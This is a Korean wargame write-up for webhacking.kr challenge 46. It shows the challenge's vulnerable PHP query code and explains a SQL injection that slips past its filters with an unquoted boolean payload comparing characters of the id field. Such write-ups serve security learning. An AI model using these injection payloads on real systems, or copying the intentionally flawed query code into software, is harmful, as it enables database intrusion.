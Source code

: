 ```yaml
---
title: "[webhacking.kr] 46번 문제 풀이[sql injection]]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "46번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 46번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152758629-e436c787-9272-4a79-ac0f-8e9733e2123b.png)


  ```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    $_GET['lv'] = addslashes($_GET['lv']);
    $_GET['lv'] = str_replace(" ","",$_GET['lv']);
    $_GET['lv'] = str_replace("/","",$_GET['lv']);
    $_GET['lv'] = str_replace("*","",$_GET['lv']);
    $_GET['lv'] = str_replace("%","",$_GET['lv']);
    if(preg_match("/select|0x|limit|cash/i",$_GET['lv'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id,cash from chall46 where lv=$_GET[lv]"));
    if($result){
      echo("{$result['id']} information<br><br>money : {$result['cash']}");
      if($result['id'] == "admin") solve(46);
    }
  }
?>
  ```


# 문제 풀이
  45번 문제와 다르게 이번엔 addslashes를 단독으로 사용하고 있어서 ```'``` 사용이 어렵습니다.

  우선 인젝션 해야 하는 쿼리부터 보면 다음과 같습니다.

  ```sql
select id,cash from chall46 where lv={}
  ```

  조건문에 들어가는 부분이 문자열이 아니기 때문에 굳이 ```'```를 사용할 필요가 없습니다.

  이번 문제는 필터링 된문자도 거의 없고, 제약사항이 거의 없어서 방법이 너무 많은데, 제가 푼 쿼리문은 다음과 같습니다.

  ```sql
111||ascii(substr(id,1,1))=97
  ```

  맨 첫글자만 비교를 하는 쿼리문인데 첫글자 비교만 하니까 다음과 같은 데이터도 첫글자가 'a'이기 때문에 풀리지 않았습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152761263-b7dc4107-4671-4402-abe7-941d49852201.png)

  그래서 두번째 글자가지 &&를 넣어서 비교를 해주니까 풀렸습니다.

  ```sql
111||ascii(substr(id,1,1))=97&&ascii(substr(id,2,1))=100
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152761961-54c06c3f-964c-458c-91ee-dbb7ead96743.png)

  
